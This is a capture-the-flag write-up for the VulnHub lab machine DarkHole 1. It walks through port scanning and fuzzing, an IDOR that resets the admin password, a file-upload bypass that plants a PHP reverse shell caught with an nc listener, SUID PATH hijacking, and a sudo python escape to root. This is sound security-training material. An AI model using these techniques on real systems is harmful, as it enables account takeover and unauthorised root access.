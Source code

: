 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/dark-hole-1/","tags":["CTF","write-up","#SUID","#sudo-l"]}
---
```



![Pasted image 20241204220755.png|300](/img/user/attachments/Pasted%20image%2020241204220755.png)

---
> [!INFO] Info about DarkHole - 1
>  It's a box for beginners, but not easy, Good Luck

> [!FAQ]- Hints
> Don't waste your time For Brute-Force

---
# Active reconnaissance

## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux, ubuntu
## Port 22 - SSH
22/tcp open  ssh     **OpenSSH 8.2p1** Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
## Port 80 - Apache
80/tcp open  http    **Apache** httpd **2.4.41** ((Ubuntu))
http-title: DarkHole
http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add the IP to `/etc/hosts` (optionally)
```shell
sudo echo "192.168.122.12 darkhole.vh" | sudo tee -a /etc/hosts
```
The webpage:
![Pasted image 20241205093541.png|700](/img/user/attachments/Pasted%20image%2020241205093541.png)

Login page:
![Pasted image 20241205093831.png|600](/img/user/attachments/Pasted%20image%2020241205093831.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://darkhole.vh/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -mc all -fc 404 -e .php,.html,.txt
```
![Pasted image 20241205101239.png](/img/user/attachments/Pasted%20image%2020241205101239.png)

---
# Exploitation
## Port 80
### Dashboard misconfiguration
First go to log in then create a new account and access it
![Pasted image 20241205160247.png](/img/user/attachments/Pasted%20image%2020241205160247.png)
We have the id number *2* this suggest that the the admin id number is *1*
After try some things on the panel, I intercept the request when clicked on the *Change* botton of password (using *BurpSuite*)
![Pasted image 20241205160534.png](/img/user/attachments/Pasted%20image%2020241205160534.png)
![Pasted image 20241205160822.png](/img/user/attachments/Pasted%20image%2020241205160822.png)
It's interesting that the *id* number is sent with the password, so I change to 1 to try to change the admin password and apparently works
![Pasted image 20241205161025.png](/img/user/attachments/Pasted%20image%2020241205161025.png)

Try to log in as *admin* with the new password *password123*
![Pasted image 20241205161129.png|500](/img/user/attachments/Pasted%20image%2020241205161129.png)
It works
![Pasted image 20241205161254.png](/img/user/attachments/Pasted%20image%2020241205161254.png)
### Upload vulnerability
If we try to upload a *PHP* reverse sell (`/usr/share/webshells/php/php-reverse-shell.php`) it's not allowed, only some types are allowed.
![Pasted image 20241205161902.png|300](/img/user/attachments/Pasted%20image%2020241205161902.png)
To bypass change the extension to `.phar` and should be uploaded.

Start the listener on the attacker machine
```shell
rlwrap nc -lnvp 4747
```

On the browser or burpsuite go to the file uploaded path
`http://darkhole.vh/upload/php-reverse-shell.phar`

We have a reverse shell as `www-data`
![Pasted image 20241205182522.png](/img/user/attachments/Pasted%20image%2020241205182522.png)

---

# Privilege escalation
We have 3 interesting users
![Pasted image 20241205182915.png](/img/user/attachments/Pasted%20image%2020241205182915.png)
Go to `/home/john/`, there are some files
![Pasted image 20241205205815.png](/img/user/attachments/Pasted%20image%2020241205205815.png)
I'll focus on the SUID *toto* file 
## SUID Path exploiting
It's an executable when I execute, I suppose its executing the `id` command as `john` user:
![Pasted image 20241205210151.png](/img/user/attachments/Pasted%20image%2020241205210151.png)
If the path to `id` is not set with the complete path of the command (`/usr/bin/id`) and the *PATH* is editable we can exploit it to force *toto* to execute our malicious binary instead of the original `id` binary. 
In this case I'll leverage this to copy the *bash* to get a shell
1. Copy the file
   ```shell
   cp /bin/bash /tmp/id
   ```
2. Edit the *PATH* to set first */tmp* directory
   ```shell
   export PATH=/tmp:$PATH
   ```
   Now the path is:
   ![Pasted image 20241206083010.png](/img/user/attachments/Pasted%20image%2020241206083010.png)
1. Execute `toto` and we have a shell as *john*
   ```shell
   ./toto
   ```
   ![Pasted image 20241205210952.png](/img/user/attachments/Pasted%20image%2020241205210952.png)
   
> [!check] user flag
> ![Pasted image 20241205211221.png](/img/user/attachments/Pasted%20image%2020241205211221.png)

Furthermore I found the password of *john*
![Pasted image 20241205211630.png|300](/img/user/attachments/Pasted%20image%2020241205211630.png)
To get a more stable shell, I recommend connect through *SSH*.
## sudo -l
Now we are *john*
Check `sudo -ĺ` and enter the password. We have *python* and *file.py*
![Pasted image 20241205212323.png](/img/user/attachments/Pasted%20image%2020241205212323.png)
This means we can execute as *root*
```shell
sudo /usr/bin/python3 /home/john/file.py
```
But the file *file.py* is empty
Check *gtfobins* and we have a way to exploit this
```
sudo python -c 'import os; os.system("/bin/sh")'
```
Write this into the *file.py*
*file.py*:
```
#!/usr/bin/env python3
import os; os.system("/bin/sh")
```
And execute it:
```shell
sudo /usr/bin/python3 /home/john/file.py
```
![Pasted image 20241206081409.png](/img/user/attachments/Pasted%20image%2020241206081409.png)
> [!check] user flag
> ![Pasted image 20241206081547.png](/img/user/attachments/Pasted%20image%2020241206081547.png)

---